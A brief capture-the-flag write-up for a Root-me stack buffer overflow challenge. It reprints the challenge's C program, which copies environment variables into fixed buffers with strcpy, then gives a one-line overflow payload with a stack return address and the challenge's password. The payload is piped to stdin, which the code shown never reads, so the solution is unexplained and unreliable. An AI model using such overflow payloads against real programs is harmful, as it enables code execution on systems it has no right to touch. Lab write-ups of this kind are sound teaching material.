 # ELF x86 - Stack buffer overflow basic 4
- Point: 30pts
- Author: [Lu33Y](https://www.root-me.org/Lu33Y?lang=en),  8 February 2012
- Level: Medium <br><br>
- Can you return the env to me pleazzz ? <br><br>
![image](https://user-images.githubusercontent.com/48288606/144751579-b6431726-2894-4a1e-946f-4bc797c9245c.png)

## Write-up:

```
#include <stdio.h>
#include <stdlib.h>
#include <dirent.h>
#include <string.h>
 
struct EnvInfo
{
  char home[128];
  char username[128];
  char shell[128];  
  char path[128];  
};
 
 
struct EnvInfo GetEnv(void)
{
  struct EnvInfo env;
  char *ptr;
   
  if((ptr = getenv("HOME")) == NULL)
    {
      printf("[-] Can't find HOME.\n");
      exit(0);
    }
  strcpy(env.home, ptr);
  if((ptr = getenv("USERNAME")) == NULL)
    {
      printf("[-] Can't find USERNAME.\n");
      exit(0);
    }
  strcpy(env.username, ptr);
  if((ptr = getenv("SHELL")) == NULL)
    {
      printf("[-] Can't find SHELL.\n");
      exit(0);
    }
  strcpy(env.shell, ptr);
  if((ptr = getenv("PATH")) == NULL)
    {
      printf("[-] Can't find PATH.\n");
      exit(0);
    }
  strcpy(env.path, ptr);
  return env;
}
 
int main(void)
{
  struct EnvInfo env;
   
  printf("[+] Getting env...\n");
  env = GetEnv();
   
  printf("HOME     = %s\n", env.home);
  printf("USERNAME = %s\n", env.username);
  printf("SHELL    = %s\n", env.shell);
  printf("PATH     = %s\n", env.path);
   
  return 0;  
}
```

Payload: `(python -c "print('\x08'*4+'\xbc\xfa\xff\xbf')";cat) | ./ch16`

Password: Sm4shM3ify0uC4n


